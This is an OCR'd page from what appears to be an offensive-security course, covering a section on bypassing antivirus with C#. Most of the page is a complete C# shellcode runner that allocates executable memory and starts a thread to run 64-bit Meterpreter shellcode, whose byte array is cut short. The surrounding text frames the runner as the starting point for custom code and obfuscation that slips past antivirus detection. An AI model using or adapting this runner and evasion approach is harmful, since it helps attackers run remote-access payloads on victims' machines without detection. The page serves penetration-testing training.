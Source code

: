 ### 9.5. Bypassing Antivirus with C\#

As we have discovered, public code and techniques are often flagged by antivirus software. This makes sense since antivirus vendors have access to this code as well and have taken the time to properly analyze it.

There are two effective ways to avoid detection. We can either write our own code with custom shellcode runners or manually obfuscate any code we use.

Since we have already implemented a shellcode runner in C#, we will use that as the basis of our approach.

#### 9.5.1. C# Shellcode Runner vs Antivirus

The C# shellcode runner we developed earlier used _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ but included un-encoded and un-encrypted 64-bit Meterpreter shellcode.

Let's try to compile the standalone shellcode runner, which is presented in Listing 25 as a 64-bit application.

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
            uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
                  uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
            UInt32 dwMilliseconds);
        
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
              0xfc,0x48,0x83,0xe4...

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
